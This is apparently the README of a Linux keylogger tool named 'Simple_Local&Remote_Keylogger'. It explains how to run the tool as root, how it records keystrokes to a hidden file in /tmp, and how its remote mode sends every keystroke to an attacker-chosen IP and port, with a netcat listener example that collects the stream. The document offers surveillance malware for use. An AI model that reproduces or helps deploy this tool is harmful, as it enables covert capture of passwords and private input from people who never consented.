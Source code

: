 # Simple_Local&Remote_Keylogger

Simple keylogger that runs on Linux.<br>
It must be run as root.

__________________________________________________________________________
Usage: #./slrk [OPTIONS]<br>
<br>
OPTIONS:<br>
	-d \<input-device\>:\tif not specified, the default device is '/dev/input/by-path/***kbd'<br>
	-o \<output-file\>:\tit can be used only if '-m remote' option is not specified. The default output file is '/tmp/.logger.txt'<br>
	-m remote -a \<IP-ADDR\> -p \<PORT\>: it sends all the keystrokes on the remote server located at \<IP-ADDR:PORT\><br>
<br>
EXAMPLE<br>
Server$ nc lvp 8888 > logger.txt<br><br>
Client#./slrk -m remote -a 127.0.0.1 -p 8888<br>
__________________________________________________________________________
<br>(Keys are mapped on English keyboard)
